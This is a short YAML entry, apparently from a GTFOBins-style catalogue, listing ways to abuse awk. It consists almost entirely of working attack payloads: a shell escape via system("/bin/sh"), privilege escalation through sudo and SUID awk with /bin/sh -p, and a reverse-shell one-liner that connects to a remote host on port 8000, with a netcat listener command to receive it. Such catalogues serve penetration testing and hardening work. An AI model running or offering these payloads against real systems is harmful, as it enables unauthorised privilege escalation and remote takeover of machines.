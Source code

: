 ```yaml
---
functions:
  exec-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh -p")}'
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s;}}'
---
```

